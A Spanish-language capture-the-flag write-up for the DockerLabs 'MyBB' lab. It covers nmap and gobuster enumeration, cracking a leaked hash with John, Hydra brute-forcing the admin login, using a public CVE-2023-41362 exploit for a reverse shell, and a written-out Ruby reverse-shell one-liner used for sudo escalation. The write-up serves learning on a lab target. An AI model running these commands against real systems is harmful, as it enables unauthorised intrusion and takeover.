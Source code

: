 # MyBB

# Enumeración

Empezamos con un escaneo de los puertos.

`sudo nmap -p- --open -sC -sS -sV --min-rate=5000 -n -Pn -vvv 172.17.0.2 -oN MyBB`  

- `-p-` : Todos los puertos
- `--open` : Todos los puertos abiertos
- `-sC` : Escaneo de todos los scripts
- `-sS` : Escaneo de todos los servicios
- `-sV` : Escaneo de todas las versiones de los servicios
- `--min-rate 5000` : Establece mínimo envío de paquetes mínimos 5000/s
- `-n` : No aplica resolución DNS
- `-Pn` : Omisión de detección de hosts
- `-vvv` : Verbose - Muestra toda la información

# Resultado escaneo  

![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_1.png)     

Tenemos solo un puerto abierto, el 80.  
Echemos un vistazo para ver qué corre en ese puerto.  

![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_2.png)      

Veamos esta página y si intentamos hacer clic en "Ir al foro", veremos que somos redirigidos a la dirección panel.mybb.dl.  

![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_3.png)   

Modifiquemos entonces nuestro archivo de hosts y agreguemos esta entrada, y volvemos a ver que corre a esta dirección.  

![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_4.png)   

![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_5.png)    

Hacemos un poco de fuzzing con la herramienta **gobuster**.  
Para ello ejecutamos el comando:  

`sudo gobuster dir -u http://panel.mybb.dl/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt `  

![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_6.png)     

Vemos que hay 2 entradas interesantes. Una llamada backups y la otra admin.  

Analicemos el recurso backups.  

![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_7.png)    

Nos llama la atención una línea en particular donde se ve que un usuario llamado alice intentó acceder con una contraseña que aparece hasheada.  

![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_8.png)      

Copiamos la cadena en un archivo de texto que llamaremos **hash** y lo pasaremos a John the Ripper para ver si podemos descubrir la contraseña.  
Ejecutamos el comando:  

`john --wordlist=/usr/share/wordlists/rockyou.txt hash`  

![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_9.png)       

¡Bien!   
¡Tenemos una contraseña!   
Intentemos iniciar sesión en el foro.  

![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_10.png)   

Nos devuelve un error.  

Echemos un vistazo a la dirección: http://panel.mybb.dl/admin/  

![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_11.png)   

Nos encontramos frente a un panel de inicio de sesión.  
Lo que podemos hacer es intentar realizar un ataque de fuerza bruta con Hydra.  
Usaremos el usuario **admin**, que vimos ser un usuario válido al analizar previamente el registro de respaldo.  

`sudo hydra -t 64 -l admin -P /usr/share/wordlists/rockyou.txt panel.mybb.dl http-post-form "/admin/index.php:username=^USER^&password=^PASS^:The username and password combination you entered is invalid."`  

![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_12.png)   

El comando funcionó, aunque nos devolvió una serie de falsos positivos.  
Después de probar pacientemente algunos de ellos, vemos que podemos iniciar sesión con la contraseña **babygirl**.  

![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_13.png)     

Una vez dentro, nos llama la atención el mensaje que nos informa que la versión no está actualizada.  
Bien, tenemos el número exacto de la versión de MyBB, así que buscaremos en internet si hay vulnerabilidades conocidas.  

Descubrimos que esta versión es vulnerable (CVE-2023-41362 - MyBB ACP RCE).  
Descargamos el exploit que encontramos en GitHub en la siguiente dirección: [https://github.com/SorceryIE/CVE-2023-41362_MyBB_ACP_RCE](https://github.com/SorceryIE/CVE-2023-41362_MyBB_ACP_RCE).  
Ejecutamos el script con el comando:  

`python3 exploit.py http://panel.mybb.dl admin babygirl`   

e intentamos enviarnos una reverse shell.  
Vamos al sitio revshells.com [https://www.revshells.com/](https://www.revshells.com/) y en este caso funcionará la reverse shell en Perl.  

![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_14.png)      

Nos ponemos a escuchar en el puerto 6969 y ejecutamos el comando.  

![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_15.png)     

¡Perfecto, estamos dentro!  
Ahora, como de costumbre, realizaremos el tratamiento de la shell para poder trabajar más cómodamente.  

![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_16.png)     

# Escalada de privilegios

Ejecutamos los típicos comandos:

`sudo -l`  
`find / -perm -400 2>/dev/null`

para intentar elevar nuestros privilegios, pero no obtenemos ninguna información interesante.  

![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_17.png)       

Vemos entonces si en la máquina existe un usuario llamado **alice** del cual tenemos una contraseña que descubrimos previamente.    

![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_18.png)       

Bien, intentemos iniciar sesión como **alice**.  

![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_19.png)       

¡Excelente! Ahora ejecutemos `sudo -l` para ver si podemos escalar nuestros privilegios.  

![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_20.png)      

Interesante, podemos ejecutar archivos `.rb` con permisos de sudo.  
Lo que haremos será crear un script en Ruby que nos envíe una reverse shell, por ejemplo, en el puerto 7070.  
Una vez más, usaremos el sitio web de revshells.com para generar nuestro script.  

![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_21.png)    

Para crear el script Ruby con echo desde el terminal, puedes usar el siguiente comando:  

`echo "ruby -rsocket -e'spawn(\"sh\",[:in,:out,:err]=>TCPSocket.new(\"172.17.0.1\",7070))'" > reverse_shell.rb`  

Y luego les daremos permisos de ejecución con el comando:

`chmod +x reverse_shell.rb`
 
![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_22.png)      

Ahora no nos quedará más que ponernos a escuchar en el puerto 7070 de nuestra máquina atacante y ejecutar el comando `sudo ./reverse_shell.rb` en la máquina víctima.  

![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_23.png)     

¡Y listo!  
¡Somos root!














